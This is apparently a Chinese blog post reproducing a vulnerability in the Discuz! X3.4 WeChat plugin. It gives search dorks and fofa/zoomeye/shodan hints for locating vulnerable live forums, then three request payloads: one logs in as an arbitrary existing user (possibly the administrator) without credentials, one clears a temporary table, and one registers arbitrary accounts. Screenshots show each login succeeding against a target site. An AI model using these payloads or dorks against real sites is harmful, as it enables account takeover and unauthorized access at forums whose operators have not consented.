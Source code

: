 ## 前言

下午回到宿舍看到文章，特地复现一波  
文章来源：

https://gitee.com/ComsenzDiscuz/DiscuzX/issues/IPRUI

https://www.sk15.net/archives/119.html

google语法:intext:Powered by Discuz! X3.2 Licensed 扫一扫，访问微社区

## 正文

上fofa或zoomeye或shodan用语法找给dz3.4的站来测试  
![](https://s2.ax1x.com/2019/02/18/kcMOlq.png)

文章给出的payload有三个

```php 
随机登陆一个账号(登录tmp里的的第一个用户，如果admin在第一个就可以直接登admin)
/plugin.php?id=wechat:wechat&ac=wxregister&username={username}

清空tmp

/plugin.php?id=wechat:wechat&ac=unbindmp&uid={uid}&hash={csrf_hash}

注册账号

/plugin.php?id=wechat:wechat&ac=wxregister&username={username}&wxopenid=abcdefg
```
第一个payload测试

`php http://www.xxx.com/plugin.php?id=wechat:wechat&ac=wxregister&username=disjkdjsaiodasd`![](https://s2.ax1x.com/2019/02/18/kcQm7D.md.png)

返回主页刷新一下(注意右上角)  
![](https://s2.ax1x.com/2019/02/18/kcQ09s.png)

第二个payload是清空tmp的，清空后第一个payload就无法使用所以这里不测试

第三个payload是任意注册用户的

`php /plugin.php?id=wechat:wechat&ac=wxregister&username={填你自己想的用户名}&wxopenid={这里的id可以乱填}`比如下图所示：  
![](https://s2.ax1x.com/2019/02/18/kcQv8A.png)

返回主页刷新  
![](https://s2.ax1x.com/2019/02/18/kcQzvt.png)

成功注册  
![](https://s2.ax1x.com/2019/02/18/kclCb8.png)

只要安了微信插件的有可能可以
